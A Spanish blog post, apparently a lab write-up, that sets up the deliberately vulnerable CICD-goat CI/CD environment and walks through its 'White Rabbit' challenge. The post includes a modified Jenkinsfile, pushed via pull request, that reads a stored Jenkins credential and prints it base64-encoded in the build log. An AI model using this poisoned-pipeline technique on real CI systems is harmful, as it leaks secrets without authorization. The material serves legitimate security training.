

# Ambiente Vulnerable CI/CD 

En la actualidad como es ya una costumbre nuestra participamos en el CTF de Nahancon2023 quedando en una mejora posición respecto del año pasado.


Entre los retos encontrados encontramos de diversas categorías entre ellas algunos retos de Devops con diversas herramientas Gitea, Drone, entre otras. Por tanto, el objetivo principal de este artículo esta en implementar un laboratorio vulnerable para el Integración Continua y Despliegue Continuo. No entraremos a explicar la importancia ni las definiciones relacionados, pero compartimos el [OWASP Top 10 CI/CD Security Risk](https://owasp.org/www-project-top-10-ci-cd-security-risks/) para quienes quieran explorar la teoría detrás.

En el repositorio de GitHub del Proyecto CICD-goat encontraremos las siguientes tecnologías necesarias


##### Requerimientos

1. [Un VPS con un 4vCPU y 8GB de RAM](https://www.vultr.com/?ref=7249687)
2. Puerto abiertos en el firewall 8000, 8080, 2222, 3000, 4000, 50000 adicionales al acceso por SSH
3. Una taza de café

##### Instalación

Accedemos como super usuario y actualizados los repositorios, instalamos docker y docker-compose

```shell
sudo su
apt update 
apt install docker.io -y && apt install docker-compose -y
```

Comprobamos que esten instalados correctamente 


Los pasos para instalación señalan que no necesitamos clonar el repo el archivo que se descarga con curl realiza lo necesario como sigue:

```shell
curl -o cicd-goat/docker-compose.yaml --create-dirs https://raw.githubusercontent.com/cider-security-research/cicd-goat/main/docker-compose.yaml
cd cicd-goat && docker-compose up -d
```

  Va a comenzar a descargar las imágenes de los contenedores y levantar los servicios


Procedemos a verificar que los servicios están arriba

`docker-compose ps`


##### Desarrollo CTF

Probamos accediendo al navegador en nuestra dirección, recordar cambiar la dirección por la que hayamos configura en nuestro DNS o usar el ip de la VPS

```
http://lab.toadsec.xyz:8000
```


**Nota:** credenciales login usuario **alice** y password **alice**


##### Resolución Reto White Rabbit

Realizaremos el paso a paso para solucionar el reto inicial


El acceso al jenkins lo vemos en el repo del proyecto CI/CD GOAT lab.toadsec.xyz:8080 con credenciales **alice/alice**, de igual manera nos dan unas pistas del proyecto **Wonderland/white-rabbit** en el reto.



Verificamos los accesos del Gitea en http://lab.toadsec.xyz:3000/ con la pistas que brindaron y las credenciales thealice/thealice


**Nota:** el enlace esta quemado a localhost por ende debemos reemplazar la ruta por http://lab.toadsec.xyz:3000/Wonderland/white-rabbit

Dentro del proyecto vamos a modificar el Jenkinsfile para obtener el flag, también es posible obtener un rce si tenemos acceso a la consola de scripts

```
pipeline {
    agent any
    environment {
        PROJECT = "src/urllib3"
    }

    stages {
        stage ('Install_Requirements') {
            steps {
                sh """
                    virtualenv venv
                    pip3 install -r requirements.txt || true
                """
            }
        }

        stage ('Lint') {
            steps {
                sh "pylint ${PROJECT} || true"
            }
        }

        stage ('Unit Tests') {
            steps {
                sh "pytest"
            }
        }

    }
    post { 
        always { 
            cleanWs()
        }
    }
}


```

Vamos a modificar el archivo para reemplazarlo y poder obtener el flag, para ello clonamos el repo nos solicita las credenciales

```shell
git clone http://lab.toadsec.xyz:3000/Wonderland/white-rabbit.git
```


Accedemos al repo 


Creamos  un branch antes de modificar el archivo

```shell
git checkout -b noobs
git branch
```

Modifcamos el archivo Jenkinsfile

```
pipeline {
    agent any
    environment {
        PROJECT = "src/urllib3"
        FLAG = credentials("flag1")
    }

    stages {
        stage ('Display Flag') {
            steps {
                sh """
                    echo $FLAG | base64
                """
            }
        }

       

    }
    post { 
        always { 
            cleanWs()
        }
    }
}


```

**Nota:** agregamos una variable con el flag1 y modificamos el primer stage para que imprima el flag y lo encode con base64

Comprobamos la modificación con git


Realizamos un commit y le hacemos push al repo

```shell
git add .
git commit -m "flag1"
```


Cuando hacemos push nos va a salir un mensaje de error


Debemos usar el siguiente comando

`git push --set-upstream origin noobs`


Si se hizo el push correctamente podemos ver el branch en el repo Wonderlan/white-rabbit


Debemos crear un nuevo pull request en nuestro branch


Confirmamos el pull request


Ahora queda pendiente aprobarlo en el Jenkins


Vamos al jenkins a ver los estatus de los pull request del proyecto


Entramos y comenzamos el build


Accedemos al historial de construcción a la izquierda y buscamos el último PR


Entramos al último PR en la consola de salida y buscamos el paso encadenado de base64


Copiamos el flag y procedemos a decodificarlo


Colocamos el flag en el CTFD 


Listo hemos completado el primer reto, a manera de conclusión es bueno realizar este tipo de prácticas dado que nos permite entender el funcionamiento de los pipelines y la importancia de la seguridad en la misma, podemos realizar estas prácticas de diversos escenarios que van cambiando de nivel de dificultad a medio que vamos resolviendo los retos.

